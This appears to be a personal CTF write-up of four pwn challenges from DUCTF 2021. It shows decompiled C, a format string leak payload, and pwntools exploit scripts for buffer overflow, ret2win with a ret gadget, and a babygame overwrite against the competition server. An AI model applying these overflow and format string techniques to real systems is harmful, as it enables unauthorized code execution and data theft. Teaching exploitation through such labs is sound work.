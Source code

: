 ```yaml
---
title: "DUCTF"
date: 2021-09-28T22:03:55+07:00
draft: false
---
```


# DUCTF WriteUp

## Pwn (4/9)
### deadcode
![img]()
First things, we have to check file and checksec cmd to make something clearly. 

![img]()


We can see it a ELF 64bits file, no canary found, no pie,NX enabled (Non-eXecutable). It mean we can use IDA Pro 64bits to read and no canary,no pie, can't execute in stack :D . 

After that, i using IDA Pro 64 bits to read ELF file and can be get source code C like this.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[24]; // [rsp+0h] [rbp-20h] BYREF
  __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = 0LL;
  buffer_init(argc, argv, envp);
  puts("\nI'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.");
  puts("\nWhat features would you like to see in my app?");
  gets(v4);
  if ( v5 == 0xDEADC0DELL )
  {
    puts("\n\nMaybe this code isn't so dead...");
    system("/bin/sh");
  }
  return 0;
}
```
I see *gets* funtion it mean have BufferOverFlow(bof) in there. This program's flow is so ezzzzz. I just bypass condition *v5 = 0xDEADC0DE* in if condition and i can call system.

This is a simple chall :< 

##### Exploitttt

I find offset = 24

Using pwntool convert v5 to little edien


```
from pwn import * 

BIN = "./deadcode"

v5 = 0xDEADC0DE

def exploit():
	payload = b"a"*24 + p64(v5)
	io.recvuntil("What features would you like to see in my app?")
	io.sendline(payload)
	io.interactive()

#io = process(BIN)
io = remote("pwn-2021.duc.tf", 31916)
exploit()
```
![img]()


### Leaking like a sieve

![img]()
We can see it a ELF 64bits file, no canary found, pie enabled ,NX enabled (Non-eXecutable). It mean we also use IDA Pro 64bits to read.It same the previous chall but different in pie, pie is enabled. That mean code area address will be random . 
![img]()
I using IDA Pro 64 bits to read ELF file.


```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+8h] [rbp-58h]
  char format[32]; // [rsp+10h] [rbp-50h] BYREF
  char s[40]; // [rsp+30h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  buffer_init(argc, argv, envp);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("The flag file isn't loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 32, stream);
  while ( 1 )
  {
    puts("What is your name?");
    fgets(format, 32, stdin);
    printf("\nHello there, ");
    printf(format);
    putchar(10);
  }
}
```
Read source code and i know flow : 
  + Read flag in file flag.txt to stream
  + Read from stream to s value ==> flag in s value
  + Get input into format value
  + Print Hello there, + format
  
  
 ==> I know this is Format string (fmt), so to exploit i have to find offset by payload = %x %x %x %x %x %x %x %x %x %x
 
 
 using payload i can get offset = 6 ==> payload =  %6$s to leak flag :))) so ezz right ?
 
 ![img]()
 
 ### outBackdoor
 ![img]()
 Status of this chall as same as deadcode, so maybe i can call it is version upgraded of deadcode.
 
 Uisng IDA Pro to analyst :|


Read code i see a normal bof but don't see flag or system funtion. After that, i check all funtion in IDA and i found outBackdoor funtion.

It is a system funtion, it can get shell for me :D . So i using bof to return address of this funtion to call outBackdoor.

To exploit i find outBackdoor address = 0x4011d7
```
 pwndbg> p outBackdoor 
$1 = {<text variable, no debug info>} 0x4011d7 <outBackdoor>
pwndbg> 
```
Offset = 16 + 8(old rbp)

==> Payload = 16 + 8 + address

Something, i get some trouble like this, i can get shell in local but i cant get shell in server ?? :D ?? wwhyy ???? WWhat happen to me :| Am i do somethings wwrong? 

In a long time, i see a video teach me that i can be use ret to make it run. So i using ROPgadget to find ret and get it to exploit.
```
from pwn import * 


BIN = "./outBackdoor"
outBackdoor = 0x4011d7
ret = 0x0000000000401016

def exploit():
	payload = b"a"*16 + b"b"*8 + p64(ret) + p64(outBackdoor)
	io.recvuntil("Seriously though, what features would be cool? Maybe it could play a song?")
	io.sendline(payload)
	io.interactive()

#io = process(BIN)
io = remote("pwn-2021.duc.tf", 31921)
exploit()
```
 ![img]()
 ### babygame
 ![img]()
 
 ```
 from pwn import *

BIN = "./babygame"
guess = b"\x7f\x45\x4c\x46" #0xfbad2488 #0x1e8c1e00000055de
Randpath = b"pwn"

def exploit():
	payload = b"a"*31
	io.recvuntil("Welcome, what is your name?")
	io.sendline(payload)
	io.recvuntil("> ")
	io.sendline(b"2")
	io.recvline()
	randadd = int.from_bytes(io.recvline().strip(), byteorder='little', signed=False)
	name = randadd - 32 + 0x209c
	print(hex(name))
	payload = Randpath + b"\x00"*(32-len(Randpath)) + p64(name)[0:6]
	# _breakpoint="""
	# 	b*set_username
	# 	"""
	# gdb.attach(io,_breakpoint)
	io.recvuntil("> ")
	io.sendline(b"1")
	io.recvuntil("What would you like to change your username to?")
	io.send(payload)
	io.recvuntil("> ")
	io.sendline(b"1337")
	io.recvuntil("guess: ")
	io.sendline("1179403647")
	io.interactive()

io = process(BIN)
io = remote("pwn-2021.duc.tf", 31907)
context.log_level="debug"
exploit()


```

 
 ![img]()
